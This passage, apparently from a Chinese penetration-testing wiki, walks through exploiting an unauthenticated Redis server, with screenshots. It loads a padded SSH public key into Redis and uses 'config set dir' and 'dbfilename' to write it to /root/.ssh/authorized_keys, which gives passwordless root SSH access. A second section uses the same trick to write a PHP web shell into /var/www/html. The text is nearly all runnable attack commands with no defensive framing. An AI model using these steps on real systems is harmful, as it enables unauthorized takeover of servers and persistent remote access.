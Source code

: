 ![img](/assets/PeiQi-Wiki/img/1628512967608-9d62672c-9db3-4b07-94ad-70d03edf02b7-20220415143203434.png)

将公钥导入key.txt文件（前后用\n\n换行，避免和Redis里其他缓存数据混合）

```php
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

![img](/assets/PeiQi-Wiki/img/1628513275098-e5bcd6c4-3c19-4aaa-b2c1-90bd3d3b4a4e-20220415143203451.png)

再把 key.txt 文件内容写入目标主机的缓冲里

```php
cat key.txt | redis-cli -h 192.168.0.126 -x set test 
```

![img](/assets/PeiQi-Wiki/img/1628514409894-848f4f59-3b45-449a-8566-c204aed32354-20220415143203297.png)
再通过设置参数，写入指定文件

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /root/.ssh
OK
192.168.0.126:6379> config set dbfilename authorized_keys
OK
192.168.0.126:6379> keys *
1) "test"
192.168.0.126:6379> get test
"\n\n\nssh-rsa xxxxxxxxxxxx \n\n\n\n"
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```

![img](/assets/PeiQi-Wiki/img/1628515307073-5d1f3553-587e-476a-9556-beb3c9eb54bf-20220415143203556.png)

- ✅如上则为成功写入SSH密钥文件，攻击机可无需密码远程连接目标主机SSH



### WebShell

当SSH不允许远程登录时，也可以通过写入 Web目录控制目标主机

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /var/www/html
OK
192.168.0.126:6379> config set dbfilename xxx.php
OK
192.168.0.126:6379> set web "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.0.126:6379> save
OK
```
